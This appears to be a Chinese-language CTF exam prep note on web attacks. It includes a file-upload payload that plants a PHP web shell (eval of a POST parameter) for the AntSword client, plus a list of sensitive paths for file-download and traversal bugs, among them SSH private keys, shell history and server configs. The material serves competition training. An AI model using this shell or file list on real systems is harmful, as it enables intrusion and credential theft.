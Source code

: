 ## AntSword-Loader 工具

文件上传漏洞-常用后缀 php可以解析： php,php3,phtml

1. 使用 yakit 发送生成 png() 头。
```php
Content-Disposition: form-data; name="file"; filename="fan.phtml"
Content-Type: image/png

{{png()}}<script language='php'>
eval($_POST['tt']);
</script>
```
2. 添加网址访问


## 文件下载

常见查询目录
/root/.bash_history
/root/.ssh/id_rsa
/proc/1/cmdline   1代表程序pid （pid可以爆破 1-65535）
/etc/nginx/nginx.conf
/usr/nginx/local/nginx.conf

/etc/password
/var/log/lastlog
../../../../../../../../flag
/index.php.bak
/index.php~
/index.php.1
/index.php.swp
/index.php.config
/index.php3
/index.php5
/index.phtml

## 考试说明

大家可以提前去 https://ctfhub.com 或 https://buuoj.cn/ 了解ctf竞赛内容及题目类型（本次竞赛涉及web、密码学、逆向、溯源题目其中以web方向为主）

ctfhub / web (xss、ssrf 不做)

buuoj / N1BOOK

